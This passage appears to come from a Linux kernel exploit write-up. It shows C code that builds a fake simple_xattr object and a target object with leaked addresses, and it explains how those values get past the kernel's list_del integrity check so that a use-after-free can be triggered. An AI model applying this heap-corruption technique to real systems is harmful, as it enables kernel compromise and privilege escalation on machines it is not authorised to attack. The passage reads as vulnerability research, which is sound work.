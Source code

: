 The above code is the fake object. When the next field is incremented by 0x30, it points to the fake object, and the next field of the fake object is set to xattr + 0x20000 + 0x40, which is the value field of the target object to be uafed. xattr is the address of a random `simple_xattr` object that was leaked before.
```c
((uint64_t *)value)[0] = xattr + 0x18000;
((uint64_t *)value)[1] = xattr + 0x18000;
((uint64_t *)value)[2] = leakname;
((uint64_t *)value)[3] = 0x3000;
((uint64_t *)value)[4] = xattr + 0x20000 + 0x80;
((uint64_t *)value)[5] = xattr + 0x20000  + 0x60;
((uint64_t *)value)[6] = leakname;
((uint64_t *)value)[7] = 0x3000;
((uint64_t *)value)[8] = xattr + 0x20000 + 0x40;
((uint64_t *)value)[12] = xattr + 0x18000;
((uint64_t *)value)[13] = xattr + 0x20000 + 0x40;
((uint64_t *)value)[14] = leakname;
((uint64_t *)value)[15] = 0x3000;
```
This is the target object to create the uaf. Since buddy is a Last-In-First-Out structure, if the target object is freed and reallocated, the freed target object will be recycled as a temporary buffer. Therefore, after writing the value as above, kvfree is performed immediately, but the target object is still linked to the linked list of `simple_xattr` due to the fake object, so use after free can be triggered.

```c
bool __list_del_entry_valid(struct list_head *entry)
{
	struct list_head *prev, *next;

	prev = entry->prev;
	next = entry->next;

	if (CHECK_DATA_CORRUPTION(next == NULL,
			"list_del corruption, %px->next is NULL\n", entry) ||
	    CHECK_DATA_CORRUPTION(prev == NULL,
			"list_del corruption, %px->prev is NULL\n", entry) ||
	    CHECK_DATA_CORRUPTION(next == LIST_POISON1,
			"list_del corruption, %px->next is LIST_POISON1 (%px)\n",
			entry, LIST_POISON1) ||
	    CHECK_DATA_CORRUPTION(prev == LIST_POISON2,
			"list_del corruption, %px->prev is LIST_POISON2 (%px)\n",
			entry, LIST_POISON2) ||
	    CHECK_DATA_CORRUPTION(prev->next != entry,
			"list_del corruption. prev->next should be %px, but was %px. (prev=%px)\n",
			entry, prev->next, prev) ||
	    CHECK_DATA_CORRUPTION(next->prev != entry,
			"list_del corruption. next->prev should be %px, but was %px. (next=%px)\n",
			entry, next->prev, next))
		return false;

	return true;

}
```
And the reason why the value of the target object is set relatively complexly is to bypass the above verification. The object can be freed normally only when `entry == prev->next && entry == next->prev` is satisfied.
